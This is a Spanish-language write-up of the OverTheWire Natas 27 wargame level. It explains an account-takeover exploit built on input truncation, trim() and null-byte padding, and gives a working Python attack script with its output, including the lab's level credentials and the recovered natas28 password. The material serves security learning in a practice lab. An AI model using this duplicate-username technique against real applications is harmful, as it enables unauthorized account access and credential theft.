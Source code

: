 # Natas 27

#### URL: http://natas27.natas.labs.overthewire.org
#### Credenciales: natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne

El servidor acorta nuestra entrada en cada campo a 64 caracteres:
``` php
$user=mysqli_real_escape_string($link, substr($usr, 0, 64));
    $password=mysqli_real_escape_string($link, substr($pass, 0, 64));
```

La entrada es escapada asi que no podemos hacer inyeccion SQL:
```php
   $user=mysqli_real_escape_string($link, $usr);
   $password=mysqli_real_escape_string($link, $pass);
```

Si el usuario no existe se crea un nuevo usuario y contraseña:
``` php
   //user doesn't exist
        if(createUser($link,$_REQUEST["username"],$_REQUEST["password"])){
            echo "User " . htmlentities($_REQUEST["username"]) . " was created!";
        }
```

Para finalizar la base de datos se limpia cada 5 minutos:
``` php
// morla / 10111
// database gets cleared every 5 min
```
Como las cadenas de PHP son basadas en las cadenas de C, las cuales terminan con un byte nulo, podemos introducir el nombre agregandole bytes nulos al final.

Sin embargo antes de que se acorte nuestra entrada se realiza un trim() que puede eliminar nuestros bytes nulos:

![2025-03-21-112623_844x309_scrot](https://github.com/user-attachments/assets/50a706fc-beac-4d4c-95a2-225567fbb967)

Lo que necesitamos es completar la cadena con 64 - len(natas28) bytes nulos o mas y luego agregar un caracter cualquiera para pasar el trim y quedarnos con un usuario "natas28" con nueva contraseña.

La base de datos devolvera la primera fila coincidente en la base de datos, mostrando usario y contraseña del natas28 original:
``` php
  while ($row = mysqli_fetch_assoc($res)) {
                // thanks to Gobo for reporting this bug!
                //return print_r($row);
                return print_r($row,true);
            }
```

``` python
import requests
from base64 import b64encode

URL='http://natas27.natas.labs.overthewire.org'
headers={'Authorization':f'Basic {b64encode(b"natas27:u3RRffXjysjgwFU6b9xa23i6prmUsYne").decode()}'}
payload={'username':'natas28\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00e', 'password': '' }

x = requests.post(URL,headers=headers,data=payload)
print(x.text)
x = requests.post(URL,headers=headers,data={'username':'natas28', 'password':''})
print(x.text)
```

``` python3 script.py
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "u3RRffXjysjgwFU6b9xa23i6prmUsYne" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
User natas28e was created!<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas27", "pass": "u3RRffXjysjgwFU6b9xa23i6prmUsYne" };</script></head>
<body>
<h1>natas27</h1>
<div id="content">
Welcome natas28!<br>Here is your data:<br>Array
(
    [username] =&gt; natas28
    [password] =&gt; 1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj
)
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

`natas28:1JNwQM1Oi6J6j1k49Xyw7ZN6pXMQInVj`








